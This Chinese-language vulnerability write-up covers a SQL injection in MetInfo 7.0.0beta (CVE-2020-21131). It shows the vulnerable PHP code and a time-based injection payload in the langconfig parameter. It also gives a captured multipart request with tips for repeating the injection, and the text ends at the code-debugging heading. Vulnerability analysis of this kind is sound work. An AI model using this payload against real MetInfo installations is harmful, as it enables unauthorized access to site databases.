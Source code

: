 # MetInfo 7.0.0beta SQL注入(CVE-2020-21131)

## 简述

漏洞文件: /app/system/language/admin/language_web.class.php

漏洞代码: 

```php
<?php
class language_web extends admin{
    ...
    public function doAddLanguage(){
        ...
        $query = "SELECT * FROM {$_M['table']['app_config']} WHERE lang = {$_M['form']['langconfig']}";
        ...
    }
}
```

漏洞成因：SQL语句select中条件变量无单引号保护。

## 触发过程

漏洞触发过程: 

1. 首先登录后台(实战中只能配合弱密码和爆破之类的攻击手法来用了)

![image](https://user-images.githubusercontent.com/43318547/211571880-f7da76b8-9912-4b9b-b7a0-2d28688ab524.png)

2. 后台界面→多语言→添加新语言(在这个地方使用burpsuit抓包)

![image](https://user-images.githubusercontent.com/43318547/211577079-532b1b21-afd1-48b2-ac1d-364f394571c2.png)

3. burpsuit抓包之后，发送到repeater模块，在URL处添加参数langconfig。该参数为注入点，测试语句`langconfig=1 union select 1,2,3,4,sleep(10)#`。可以看到注入的SQL语句执行成功，页面延迟了10秒钟响应。

![image](https://user-images.githubusercontent.com/43318547/211578671-52ab5a86-8977-4890-86a3-4841cc6525d0.png)

## 注意事项

在第一次注入成功之后。如果需要重复注入，则需要对数据包中的某些参数进行更改。在上面的步骤中，你应该在burpsuit的repeater模块拥有一个HTTP请求。它的请求体大致如下。

```text
-----------------------------70216930042812643122266473104
Content-Disposition: form-data; name="order"

9
-----------------------------70216930042812643122266473104
Content-Disposition: form-data; name="autor"

sa
-----------------------------70216930042812643122266473104
Content-Disposition: form-data; name="name"

bbb
-----------------------------70216930042812643122266473104
Content-Disposition: form-data; name="flag"

fa.gif
-----------------------------70216930042812643122266473104
Content-Disposition: form-data; name="mark"

tet2
-----------------------------70216930042812643122266473104
Content-Disposition: form-data; name="file"

cn
-----------------------------70216930042812643122266473104
Content-Disposition: form-data; name="copy_config"

cn
-----------------------------70216930042812643122266473104
Content-Disposition: form-data; name="content"


-----------------------------70216930042812643122266473104
Content-Disposition: form-data; name="theme_style"


-----------------------------70216930042812643122266473104
Content-Disposition: form-data; name="useok"

1
-----------------------------70216930042812643122266473104
Content-Disposition: form-data; name="link"


-----------------------------70216930042812643122266473104
Content-Disposition: form-data; name="useok"

1
-----------------------------70216930042812643122266473104
Content-Disposition: form-data; name="newwindows"

0
-----------------------------70216930042812643122266473104
Content-Disposition: form-data; name="type"

0
-----------------------------70216930042812643122266473104
Content-Disposition: form-data; name="submit_type"

save
-----------------------------70216930042812643122266473104--

```

特别注意以下三个参数
* name="order"
* name="autor"
* name="mark"

在每次注入过程中，首先要保证 `name="order"` 的值每次都不同。

如果 `name="autor"` 的值存在，则让 `name="autor"` 的值每次都不同即可，这时候 `name="mark"` 的值不重要。

如果 `name="autor"` 的值不存在（即为空），则让 `name="mark"` 的值每次都不同即可。

具体原因将在下面的代码分析环节阐述。

## 代码调试

